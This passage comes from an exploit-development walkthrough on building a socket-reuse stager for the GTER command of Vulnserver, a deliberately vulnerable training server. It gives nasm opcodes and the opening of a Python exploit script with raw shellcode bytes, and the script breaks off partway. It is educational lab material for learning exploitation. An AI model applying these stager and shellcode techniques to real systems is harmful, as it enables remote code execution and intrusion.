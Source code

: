 After running this, lets test it on our debugger

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-bp-2.png">
</div>

We can see that we have successfully placed the buffer pointer in top of the stack

Still one more pending, we have to push the file descriptor which we framed at the start

## Finalising the socket reuse stager

We have pushed our 3 arguments required for the socket ```JMP.&WS2_32.recv```

Still we need to push the ```socket file descriptor``` value to finalise the stager

Our file descriptor value (need to be dereferenced from the pointer present in EBX) is stored in the address present in ```EBX```

Generating opcodes to get the file descriptor value,

```c
nasm > mov ecx,[ebx]
00000000  8B0B              mov ecx,[ebx]
nasm > push ecx
00000000  51                push ecx
```

This is similar to ```push  dword ptr ds:[ebx]```

Adding this to our script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat socket-reuse-stager.py
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

```